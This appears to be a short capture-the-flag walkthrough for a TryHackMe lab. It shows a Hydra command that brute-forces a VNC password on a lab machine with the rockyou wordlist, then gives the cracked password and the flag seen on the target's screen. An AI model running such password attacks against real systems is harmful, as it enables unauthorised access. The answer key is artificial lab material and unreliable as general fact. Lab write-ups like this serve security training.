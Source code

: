 # Day 5

### Use Hydra to find the VNC password of the target with IP address `MACHINE_IP`. What is the password?

```bash
hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.185.111 -V -f -t 4
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
1q2w3e4r
{% endhint %}

* Alternative method with nmap scripts

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Using a VNC client on the AttackBox, connect to the target of IP address `MACHINE_IP`. What is the flag written on the target’s screen? 

Connect to vnc with the credentials found in the step above

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
THM{I\_SEE\_YOUR\_SCREEN}
{% endhint %}
